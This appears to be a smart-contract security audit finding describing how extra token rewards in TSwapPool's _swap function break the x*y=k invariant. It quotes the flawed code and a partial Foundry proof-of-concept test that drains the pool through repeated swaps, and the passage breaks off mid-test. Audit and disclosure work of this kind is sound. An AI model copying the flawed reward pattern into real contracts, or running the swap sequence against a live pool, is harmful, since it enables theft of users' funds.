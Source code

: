 ## HIGH 


### [H-1] In `TSwapPool::_swap` the extra tokens given to users after every `swapCount` breaks the protocol invariant of `x * y = k`

**Description:** The protocol follows a strict invariant of `x * y = k`. Where:

`x`: The balance of the pool token

`y`: The balance of WETH

`k`: The constant product of the two balances

This means, that whenever the balances change in the protocol, the ratio between the two amounts should remain constant, hence the `k`. However, this is broken due to the extra incentive in the `_swap` function. Meaning that over time the protocol funds will be drained.

The follow block of code is responsible for the issue.

```javascript
        swap_count++;
        if (swap_count >= SWAP_COUNT_MAX) {
            swap_count = 0;
            outputToken.safeTransfer(msg.sender, 1_000_000_000_000_000_000);
        }
```

**Impact:** A user could maliciously drain the protocol of funds by doing a lot of swaps and collecting the extra incentive given out by the protocol.

Most simply put, the protocol's core invariant is broken.

**Proof Of Code** 
Place the following into `TSwapPool.t.sol`.

```javascript
    function testInvariantBroken() public {
        vm.startPrank(liquidityProvider);
        weth.approve(address(pool), 100e18);
        poolToken.approve(address(pool), 100e18);
        pool.deposit(100e18, 100e18, 100e18, uint64(block.timestamp));
        vm.stopPrank();

        uint256 outputWeth = 1e17;

        vm.startPrank(user);
        poolToken.approve(address(pool), type(uint256).max);
        poolToken.mint(user, 100e18);
        pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));
        pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));
        pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));
        pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));
        pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));
        pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));
        pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));
        pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));
        pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));

        int256 startingY = int256(weth.balanceOf(address(pool)));
        int256 expectedDeltaY = int256(-1) * int256(outputWeth);

        pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));
        vm.stopPrank();

        uint256 endingY = weth.balanceOf(address(pool));
        int256 actualDeltaY = int256(endingY) - int256(startingY);
```